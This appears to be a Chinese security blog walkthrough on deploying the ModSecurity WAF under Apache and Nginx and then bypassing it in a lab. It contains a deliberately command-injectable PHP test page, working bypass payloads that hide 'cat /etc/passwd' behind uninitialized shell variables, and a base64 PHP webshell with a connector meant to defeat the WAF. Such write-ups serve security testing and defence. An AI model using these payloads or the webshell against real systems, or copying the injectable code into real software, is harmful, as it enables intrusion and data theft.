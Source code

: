 ```yaml
---
layout: about
category: about
Researchname:  Mod-Waf-Bypass-Walkthrough
toc: true
author: Bin4xin
permalink: /about/Mod-Waf-Bypass-Walkthrough/
desc: 「WAF」
description: ModsecWAF部署 | ModsecWAF deployed | ModsecWAF绕过 | ModsecWAF Bypass | ModsecWAF绕过 | poc connector
---
```


# 「分享」ModsecWAF：老牌开源waf的绕过历程

## 零：连喊三声「WAF」

### 0x01 拿来WAF
依稀记得高中的一位物理老师的一段话，就拿这段话来开始吧；背景是当时刚学物理课程，很多人学会物理公式仅限于会用，他们在课堂上对我们的物理老师表达出了焦虑。
当然，研究生学历的物理老师对于这种学习上的困扰必然是经历过，然后提出了下面的观点，原话记不太清了，所以只能大概表述出意思：

>我知道你们现在有些迷茫，当然也是正常的。但是你们要想在某些领域上有所建树、突破，就要学会站在巨人的肩膀上看这个世界，鲁迅提出的拿来主义我觉得很适合用来学物理；
>**不管这些物理公式为什么是这样的、怎么得来的，先拿来用。**

「拿来主义」：
>是民国时期面对外来文化的冲击和中国封建时代遗留下来的文化，如何选择和取舍，于当时中国流行的闭关主义和全面西化的不同呼声；
>**鲁迅主张，既非被动地被“送去”，亦非不加分析地“拿来”，而是通过实用主义的观点选择性的“拿来”。**

所以我想：针对WAF也可以这样来学习，不知道WAF的工作原理没有关系，我们先把开源的WAF拿过来用，用了才知道WAF的优点、缺点；

同样的：只有用过之后，我们看到拦截日志后可以知道WAF的正则表达规则库，可以对WAF的工作方式有一些了解。

### 0x02 部署WAF

---

#### # Apache部署

[_进一步了解：APACHE中间件链接ModSec_](https://zhuanlan.zhihu.com/p/104931385){:target="_blank"}

没什么好说的，跟着教程一步步走基本上都能搞定。直接上部署成功的图：
![F3DUGveCgpkVqcl.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/F3DUGveCgpkVqcl.png)
如上图，部署成功后可以看到访问`http://localhost?doc=/bin/ls`，WAF给出拦截操作，日志记录提示触发了`unix-shell.data`规则导致拦截返回403；

#### # Nginx部署

[_进一步了解：Nginx中间件链接ModSec_](https://zhuanlan.zhihu.com/p/80866123){:target="_blank"}

![cpsgLRObd9BTDao.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/cpsgLRObd9BTDao.png)

同样的：访问`localhost:8011/?and 1=2--+`，触发WAF拦截规则返回403；需要注意的是：
- nginx版本，教程中推荐的1.9版本实际操作下来无法成功编译安装，这里推荐`nginx/1.13.8`
    * `wget http://nginx.org/download/nginx-1.13.8.tar.gz`
    
- 环境lib库安装：
    *  `sudo apt-get install openssl libssl-dev libpcre3 libpcre3-dev zlib1g-dev autoconf automake libtool gcc g++ make`
    
```bash
# [tips] 以下四条命令的含义：
$ sed -ie 's/SecDefaultAction "phase:1,log,auditlog,pass"/#SecDefaultAction "phase:1,log,auditlog,pass"/g' crs-setup.conf
$ sed -ie 's/SecDefaultAction "phase:2,log,auditlog,pass"/#SecDefaultAction "phase:2,log,auditlog,pass"/g' crs-setup.conf
$ sed -ie 's/#.*SecDefaultAction "phase:1,log,auditlog,deny,status:403"/SecDefaultAction "phase:1,log,auditlog,deny,status:403"/g' crs-setup.conf
$ sed -ie 's/# SecDefaultAction "phase:2,log,auditlog,deny,status:403"/SecDefaultAction "phase:2,log,auditlog,deny,status:403"/g' crs-setup.conf
```

* 将下面查看`crs-setup.conf`文件输出中1、2行（下文2、3行）的内容注释，文件中5、6行（下文6、7行）取消注释； 
    
```bash
cat crs-setup.conf|grep SecDefaultAction
#SecDefaultAction "phase:1,log,auditlog,pass"
#SecDefaultAction "phase:2,log,auditlog,pass"
# SecDefaultAction "phase:1,nolog,auditlog,pass"
# SecDefaultAction "phase:2,nolog,auditlog,pass"
SecDefaultAction "phase:1,log,auditlog,deny,status:403"
SecDefaultAction "phase:2,log,auditlog,deny,status:403"
# SecDefaultAction "phase:1,log,auditlog,redirect:'http://%{request_headers.host}/',tag:'Host: %{request_headers.host}'"
# SecDefaultAction "phase:2,log,auditlog,redirect:'http://%{request_headers.host}/',tag:'Host: %{request_headers.host}'"
```

其他根据教程往下走即可。

### 0x03 绕过WAF

#### # 未初始变量进行绕过
跟随大佬们的脚步走，使用简单的php代码进行WAF测试：
```php
<?php
        if(isset($_GET['host'])) {
        system('dig'.$_GET['host']);
        }
?>
```
如上代码尝试绕过WAF。我们知道终端执行`dig www.baidu.com;cat /etc/passwd`实际执行如下：
```bash
dig www.baidu.com;cat /etc/passwd

; <<>> DiG 9.10.6 <<>> www.baidu.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 27659
;; flags: qr rd; QUERY: 1, ANSWER: 3, AUTHORITY: 5, ADDITIONAL: 4
;; WARNING: recursion requested but not available
···
···
···
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
··
··
_oahd:*:441:441:OAH Daemon:/var/empty:/usr/bin/false
```
在终端下相同作用的链接符号还有`&&`；

直接传参`www.baidu.com;cat+/etc/passwd`注入明显的攻击行为直接返回403，查看日志匹配到以下特征：
- 1、`"Operator Rx' with parameter ^[\d.:]+$' against variable`，存在运算符；
- 2、`Operator PmFromFile' with parameter lfi-os-files.data'`，正则匹配到lfi-os-files的规则库；
- 3、`characters omitted`，特殊字符；
- 4、`"Operator PmFromFile' with parameter unix-shell.data'`，正则匹配到unix-shell的规则库；
- 5、`Operator Ge' with parameter 5'`，同样为存在运算符。
所以根据以上特征进行规则探测并注入fuzz：


---

- `+$u+cat+/$uetc/$upasswd$u`
- `+$ucat+$u/etc$u/passwd`
以上都返回200，但是没有回显，说明命令写的不对；

实际测试`/etc`、`/passwd`和特殊字符等不能单独出现，所以使用未初始变量`$u`包住后进行注入；
下面是实际生效的payload：
- `+$u+cat+/etc$u/passwd$u`
- `+$u+cat+$u/etc$u/passwd`

![FZQOLd6txseIgRu.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/FZQOLd6txseIgRu.png)

## 一：编写poc脚本连接器

通过以上绕过首发即可执行任意代码，我们可以直接写入一句话木马，但是这不是本段的重点；

本段的重点是通过实际测试发现base64编码后可以完美绕过waf，所以可以直接写入一个base64的马，然后连接，实际上就是解决实现一个webshell连接器，实现
功能类似一个蚁剑的cmd连接功能；这样以来WAF就形同虚设了。
webshell代码：
```php
<?php system(base64_decode($_GET['CMD']));?>
```
- GET/POST请求传入cmd
- base64加密参数内容
- 类似终端执行代码
实现效果如下：

![OtD5wZ6Hafyd8TJ.jpg]({{site.PicturesLinks_Domain}}/images/2022/02/20/OtD5wZ6Hafyd8TJ.jpg)


参考的是[@IppSec]的代码，简单修改了部分。
[参考代码](https://github.com/IppSec/forward-shell/blob/master/forward-shell.py){:target="_blank"}

---

以上